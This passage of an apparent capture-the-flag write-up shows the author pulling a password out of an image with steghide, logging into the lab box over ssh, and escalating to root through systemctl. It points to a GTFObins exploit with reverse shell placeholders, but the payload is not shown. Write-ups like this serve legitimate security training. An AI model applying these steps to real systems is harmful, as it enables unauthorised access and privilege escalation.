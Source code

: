 Sure enough using steghide we extract a file.
```shell
$ steghide extract -p "${DECRYPTED_STRING}" -sf ./cute-alien.jpg
wrote extracted data to "message.txt".
```
Within message.txt we are straight up given james' plain text password. Time to use this for ssh :).

After sshing in we can find the user flag and an image file.
```shell
$ ls
Alien_autospy.jpg user_flag.txt
```
After we've entered the user flag the box asks us about the image. We can download it using scp (ssh copy) (run the command on your machine).
```shell
$ scp james@${TARGETIP}:Alien_autospy.jpg .
james@10.10.203.67's password:
Alien_autospy.jpg                                        41KB 161.5KB/s   00:00
```

If we then upload this image to [tineye](https://tineye.com) we find a Fox News article containing the image and the phrase needed to solve the challenge.

## Privesc
Enumerating the box we find with sudo james can execute bash as everyone except root.
```shell
$ sudo -l
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```
After searching the sudo version (1.8.21p2) on searchsploit I didn't find any exploits to get around this. However I did notice
James was in the `adm` group.
```shell
$ id
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),46(plugdev),lxd(108)
```
The `adm` group on linux means you have special access to using `systemctl` (systemd). Meaning we
might be able to use systemctl to get root.
Sure enough if we enter out password we are able to access restricted systemctl commands
```shell
$ systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: james
Password: 
==== AUTHENTICATION COMPLETE ===
```
Using a slightly modified version of a [GTFObins exploit](https://gtfobins.github.io/gtfobins/systemctl/#suid) I got root.
Make sure to replace `${HOSTIP}` and `${HOSTPORT}` with your reverse shell ip and port.
